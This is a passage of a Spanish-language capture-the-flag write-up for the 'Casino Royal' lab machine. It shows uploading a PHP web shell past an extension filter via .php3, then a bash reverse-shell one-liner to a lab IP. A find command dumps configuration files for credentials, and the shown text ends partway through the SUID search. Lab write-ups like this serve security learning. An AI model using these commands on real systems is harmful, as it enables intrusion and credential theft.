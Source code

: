 ![files](https://helhat.github.io/assets/img/Casino_Royal/files.png){: .normal }

**RCE**
Creamos el .php , con un parametro cmd.

![hack](https://helhat.github.io/assets/img/Casino_Royal/hack.png){: .normal }

Pero al intentar subir el archivo, el sistema nos impide. Puede ser por la extension, así que intentaremos bypassear. Cambiando la extension a php3.

![put](https://helhat.github.io/assets/img/Casino_Royal/put.png){: .normal }

Se subió de manera exitosa.

![tran](https://helhat.github.io/assets/img/Casino_Royal/tran.png){: .normal }

Asi que en la web, cargamos el recurso y ejecutamos el comando que deseamos.

![web](https://helhat.github.io/assets/img/Casino_Royal/web.png){: .normal }

Pero nos damos con la sorpresa que no tenemos respuesta, esto nos hace pensar que no tenemos el permiso de ejecutar el archivo.

![cmdd](https://helhat.github.io/assets/img/Casino_Royal/cmdd.png){: .normal }

Cambiamos permisos

![perm](https://helhat.github.io/assets/img/Casino_Royal/perm.png){: .normal }


Y ahora ejecutamos nuestra Reverse shell. Recomendado urlencodear el & con %26
```
bash -c "bash -i >& /dev/tcp/192.168.65.139/443 0>&1"
```
![netcat](https://helhat.github.io/assets/img/Casino_Royal/netcat.png){: .normal }


## Persistencia
De esta manera enumeramos el sistema, para ello en esta misma ruta es bueno verificar archivos de configuración almacenados.
```
find . -name \*config\* 2>/dev/null -exec cat {} \; | less -S -r
```

Tenemos nuevas credenciales

![cred](https://helhat.github.io/assets/img/Casino_Royal/cred.png){: .normal }
![esc](https://helhat.github.io/assets/img/Casino_Royal/esc.png){: .normal }

Buscamos suid. Y encontramos un recurso

![sui](https://helhat.github.io/assets/img/Casino_Royal/sui.png){: .normal }

Al intentar ejecutar este binario, no encuentra un run.sh
